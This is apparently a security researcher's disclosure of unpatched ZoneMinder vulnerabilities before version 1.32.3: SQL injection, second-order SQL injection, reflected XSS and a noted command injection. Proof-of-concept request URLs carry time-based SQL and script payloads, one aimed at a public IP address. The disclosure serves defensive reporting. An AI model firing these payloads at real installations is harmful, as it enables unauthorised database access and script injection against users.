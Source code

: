 ﻿# zoneminder vul before v1.32.3

标签（空格分隔）： 0day

---

The following vulnerability information comes from the zoneminder release version is probably 1.32.0, the code structure has changed in 1.32.3, some of the code has changed, but the following vulnerabilities have not been fixed, need to find in 1.32.3 Corresponding code location and not absolutely the following description location


The progress of these vulnerabilities  [https://github.com/ZoneMinder/zoneminder/issues/2399](https://github.com/ZoneMinder/zoneminder/issues/2399) is constantly being updated.

# skins/classic/views/events.php line 44 sql injection

```
skins/classic/views/events.php line 44
```

![image.png-227.7kB][1]

```
parameter $_REQUEST['filter'] from function parseFilter

includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']

in 1.32.3,This part of the variable is changed to $terms[$i]['cnj'] and the terms are from $filter['Query']['terms'] in line 1035
```
![image.png-98.7kB][3]

in the above figure parameter countSql or eventsSql can be injected

poc in 1.32.3
```
index.php?view=events&page=1&filter[Query][terms][0][attr]=MonitorId&filter[Query][terms][0][op]=%3D&filter[Query][terms][0][val]=1&filter[Query][terms][0][cnj]=1%2b1)and%20sleep(3)%23
```

The following information is the same, you need to adapt the corresponding version.


![1.png](1.png)


# sql query error Reflected xss

when sql query error, sql error and message will be displayed without any validated, sanitised or output encoded.

```
includes/database.php line 120
```
![image.png-112.8kB][4]

if sql query without any validated, sanitised or output encoded and can be modifyed, it will lead to xss vulnerability.

```
https://95.143.216.108/zm/index.php?view=events&page=1&filter[terms][0][attr]=MonitorId&filter[terms][0][op]=%3D&filter[terms][0][val]=1&filter[terms][0][cnj]=1432%3Cimg/src=/%20onerror=alert`1`%3E
```
![image.png-133.7kB][5]

# skins/classic/views/control.php line 35 second order sqli

control.php line 35 

parameter `$groupSql` is detected from the database and directly spliced into the sql query statement.

![image.png-143.7kB][6]

from `includes/action.php line 748 $monitors` insert into database

![image.png-273.6kB][7]

first insert evil statement into database and select it to sql injection

poc
```
Step1:
index.php?action=group

newGroup[MonitorIds][]=1&newGroup[MonitorIds][]=2') or sleep(3)#&newGroup[Name]=132

Step2:
http://127.0.0.1/zoneminder/www/?view=control&mid=1&group={groupid}
```
Normal time
![3.png](3.png)

injected time
![4.png](4.png)

# skins/classic/views/controlcap.php Reflected xss

Most of the variables below controlcap.php are not filtered. This variable is passed directly from the mid.

![image.png-508.9kB][8]

poc
```
?view=controlcap&newControl[MinTiltRange]=2333%22/%3E%3Cimg/src=/%20onerror=alert(1)%3E
```
![5.png](5.png)
# includes/functions.php daemonControl command injection

![image.png-92.9kB][9]

# ajax/status.php line 276 orderby sql injection

![image.png-157.5kB][10]

poc
```
http://127.0.0.1/zoneminder/www/?request=status&entity=monitor&element=id&id=1&sort=123
```
Normal time
![6.png](6.png)

injected time
![7.png](7.png)

# ajax/status.php line 393 sql injection

there is two sql injection in `ajax/status.php line 393 and line 406`

![image.png-355.7kB][11]

```
includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']
```
![image.png-98.7kB][3]
```
index.php?request=status&entity=nearevents&element=id&id=13&layout=text&filter[Query][terms][0][cnj]=233)%20||1=1%23
```
![8.png](8.png)

  [1]: http://static.zybuluo.com/LoRexxar/ufoe8ar8rbq8nh505anfeiai/image.png
  [2]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png
  [3]: http://static.zybuluo.com/LoRexxar/l8hgggewmbgowwxni3bdtffb/image.png
  [4]: http://static.zybuluo.com/LoRexxar/ignq5yfbbpblxz0wbak2uopc/image.png
  [5]: http://static.zybuluo.com/LoRexxar/uot1uzz7w8dqh10ucvs2u1ou/image.png
  [6]: http://static.zybuluo.com/LoRexxar/jgjix7qr8cmsrvfme8qpk57z/image.png
  [7]: http://static.zybuluo.com/LoRexxar/opgka8vbesefdh664yjfvr9n/image.png
  [8]: http://static.zybuluo.com/LoRexxar/4ra29cgr35a6tr4zarudua48/image.png
  [9]: http://static.zybuluo.com/LoRexxar/6bcj24neh6rubbyx547n25ps/image.png
  [10]: http://static.zybuluo.com/LoRexxar/gvvxxgmkk5g1bn425tva31tz/image.png
  [11]: http://static.zybuluo.com/LoRexxar/luo7z0r5w7r8ddi3rsro8gar/image.png
  [12]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png